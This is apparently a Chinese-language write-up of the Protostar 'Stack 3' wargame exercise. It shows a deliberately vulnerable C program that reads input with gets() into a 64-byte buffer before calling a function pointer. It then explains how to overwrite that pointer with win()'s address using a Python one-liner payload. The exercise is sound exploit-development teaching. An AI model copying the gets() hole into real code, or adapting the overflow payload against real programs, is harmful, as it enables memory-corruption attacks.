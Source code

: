 # Stack 3

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void win\(\)

{

printf\("code flow successfully changed\n"\);

}

int main\(int argc, char \*\*argv\)

{

volatile int \(\*fp\)\(\);

char buffer\[64\];

fp = 0;

gets\(buffer\);

if\(fp\) {

```
  printf\("calling function pointer, jumping to 0x%08x\n", fp\);

  fp\(\);
```

}

}

## （二）解题过程：

依旧是栈溢出的题目。变量 函数在内存中的分配和调用顺序

buffer\[64\]

\*fp

ebp

返回地址

argc

argv

本题就是要把指针地址修改成win\(\)的入口地址。

先覆盖\*fp

覆盖后的地址是win\(\)入口地址

思路：

python -c "print 'a'\*64+ win\(\)入口地址"

用gdb或者ida查看win\(\)入口地址

![](/png/11.png)

地址为0x08048424

所以exploit中的payload

python -c "print 'a'\*64+'\x24\x84\x04\x08'

![](/png/12.png)


